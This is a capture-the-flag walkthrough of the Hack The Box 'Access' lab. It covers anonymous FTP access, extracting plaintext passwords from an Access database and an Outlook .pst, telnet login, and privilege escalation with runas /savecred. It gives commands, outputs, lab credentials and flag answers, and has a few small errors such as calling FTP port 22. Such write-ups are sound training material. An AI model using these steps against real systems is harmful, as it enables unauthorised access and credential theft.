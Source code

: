## Access 

### Lab Details 

- Difficulty: Easy
- Type: Telnet, FTP, Priv Esc, Windows

#### Tasks
Q1:How many TCP ports are listening on Access?
- output from nmap `nmap -sT -T4 -vv -A -p- -oA Access 10.10.10.98`
```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet  syn-ack Microsoft Windows XP telnetd (no more connections allowed)
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
```
Q2: What is the filename for the Microsoft Access database available on the host?
 - port 22 (ftp) is open, and based on the output from nmap anonymous login is allowed
 - login to target with anonymous and performed below
```
ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> binary
200 Type set to I.
ftp> mget backup.mdb
```

Q3: What table in the database has user passwords?
- to interact with mdb file, tools like Mdbtools can be installed. 
```
# list tables in mdb
mdb-tables backup.mdb

# list tables 1 table name per line
mdb-tables backup.mdb -1

# output data in a table in json format
mdb-json backup.md auth_user
```
- table auth_user looks interesting below is the data
```
{"id":25,"username":"admin","password":"admin","Status":1,"last_login":"08/23/18 21:11:47","RoleID":26}
{"id":27,"username":"engineer","password":"access4u@security","Status":1,"last_login":"08/23/18 21:13:36","RoleID":26}
{"id":28,"username":"backup_admin","password":"admin","Status":1,"last_login":"08/23/18 21:14:02","RoleID":26}
```

Q4: What is the password for Access Control.zip?
- Access Control.zip is located in Engineers directory in target ftp server 
- initially i wanted to crack the password by using `zip2john` and `john`
- however that method did not work then tried using the password found in the mdb file to access it
- password = `access4u@security`

Q5: What is the password for the security user?
- after extracting the zipped file we get Access Control.pst file which is used to stored Microsoft Outlook data
- install `pst-utls` tool to interact with `.pst` file
- we can use `readpst` to get the output 
```
# create a directory for the output to be stored
$: mkdir mail
# -o: output directory 
# -S: input pst file
$: readpst -o mail -S 'Access Control.pst'
$: tree mail
mail
└── Access Control
    └── 2
# password is in the file named '2'
```

Q6: To which open TCP port on Access can we connect to get a shell after logging in as security?
 - theres a open telnet port (23) we can try to connect to it 
 - `telnet target_ip 23`
 - once connected will prompt for username and password 
 - login with password found in the pst file

Q7: Submit the flag located on the security user's desktop.
 -  after gaining shell access execute below to get the flag
 -  `type \Desktop\user.txt

Q8: What is the name of the executable called by the link file on the Public desktop?
 - there is a `.lnk` file located at `C:\Users\Public\Desktop`
 - we can output the link file to acertain the file been executed using `type`
 - `type ZKAccess3.5 Security System.lnk`
```
PS C:\Users\Public\desktop> type "ZKAccess3.5 Security System.lnk"
L?F?@ ??7???7???#?P/P?O? ?:i?+00?/C:\R1M?:Windows???:?▒M?:*wWindowsV1MV?System32???:?▒MV?*?System32▒X2P?:?
                                                                                                           runas.exe???:1??:1?*Yrunas.exe▒L-K??E?C:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"'C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%?
                                                                                                                                       ?wN?▒?]N?D.??Q???`?Xaccess?_???8{E?3
               O?j)?H???
                        )??[?_???8{E?3
                                      O?j)?H???
                                               )??[?    ??1SPS??XF?L8C???&?m?e*S-1-5-21-953262931-566350628-63446256-500
```
 - the program executed is runas

Q9: What Windows command, when given the /list option, will print information about the stored credentials available to the current user?
 - the Windows command will print stored creds given `/list` flag is `cmdkeys` - read more on this check out `Windows Privilege Escalation -> Further Credential Theft` module from HTB Academy, goes in depth on this topic
  
Q10: What option can be given to the runas Windows command to have it use the saved credentials and run as that user? Include the leading /.
- flag `/savecred` will use the saved cred instead of user input

Q11: Submit the flag located on the administrator's desktop.
- to get the root flag we will need to contruct the runas command to as below
- running as Administrator to output the root.txt's content to another file 
```
PS C:\Users\Public\desktop> cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator

# runas as Administrator to get output from root.txt on C:\Users\Administrator\Desktop and save it to root.txt
C:\Windows\System32\runas.exe /savecred /user:ACCESS\Administrator "cmd.exe /c type C:\Users\Administrator\Desktop\root.txt > root.txt"

# get the flag
cat C:\Windows\System32\root.txt
```


#### Lesson Learned
 - Ways to interact with .mdb files 
 - Ways to interact with .pst files 
